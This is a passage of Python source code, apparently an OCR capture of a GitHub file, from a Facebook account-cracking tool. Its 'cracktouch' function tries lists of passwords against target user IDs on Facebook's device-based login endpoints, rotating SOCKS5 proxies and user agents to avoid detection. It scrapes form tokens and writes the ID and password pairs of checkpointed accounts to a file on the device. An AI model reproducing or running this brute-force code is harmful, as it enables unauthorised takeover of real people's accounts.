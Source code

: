 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

#---------------------[ METHODE-TOUCH-3 ]---------------------#
def cracktouch(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	sys.stdout.write('\r%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	for pw in pwv:
		try:
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[â€¢] ID       : {idf} [â€¢] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='Ilham-Rd CP'))
					open('/sdcard/PINK-DATA/CP/'+cpc,'a').write(idf+'|'+pw+'\n')
					akun.append(idf+'|'+pw)
					cp+=1
				else:continue
				break
			elif "c_user" in ses.cookies.get_dict().keys():